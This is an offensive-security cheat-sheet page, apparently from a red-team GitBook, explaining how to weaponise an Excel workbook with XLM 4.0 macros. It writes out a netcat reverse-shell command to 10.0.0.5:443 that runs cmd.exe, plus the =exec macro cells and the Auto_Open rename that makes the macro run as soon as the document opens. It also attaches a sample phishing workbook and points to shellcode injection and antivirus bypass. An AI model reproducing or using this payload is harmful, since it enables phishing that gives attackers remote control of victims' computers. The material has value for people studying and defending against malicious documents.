 # ⭕ XLM Macro 4.0

{% embed url="https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm" %}

{% embed url="https://fortynorthsecurity.com/blog/excelntdonut" %}

A Microsoft Excel Spreadsheet can be weaponized by firstly inserting a new sheet of type "MS Execel 4.0 Macro":

![](<../../.gitbook/assets/image (38) (1) (1).png>)

shell.cmd :&#x20;

```
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```

We can then execute command by typing into the cells:

```vba
=exec("c:\shell.cmd")
=halt()
```

Note how we need to rename the `A1` cell to `Auto_Open` if we want the Macros to fire off once the document is opened:

![](<../../.gitbook/assets/image (20) (1) (1) (1).png>)

{% file src="../../.gitbook/assets/Excel 4.0 Macro Functions Reference (1).pdf" %}

{% file src="../../.gitbook/assets/phishing-xlm.xlsm" %}

Opening the document and enabling Macros pops a reverse shell:

![](<../../.gitbook/assets/image (15).png>)

Note that XLM Macros allows using Win32 APIs, hence shellcode injection is also possible. See the original research link below for more info.

{% embed url="https://blog.sevagas.com/Launch-shellcodes-and-bypass-Antivirus-using-MacroPack-Pro-VBA-payloads" %}

{% embed url="https://www.scriptjunkie.us/2012/01/direct-shellcode-execution-in-ms-office-macros" %}

{% embed url="https://malsechunter.wordpress.com/2020/12/13/malicious-document-shellcode-injection" %}

{% embed url="https://securityonline.info/badassmacros-c-based-automated-malicous-macro-generator" %}
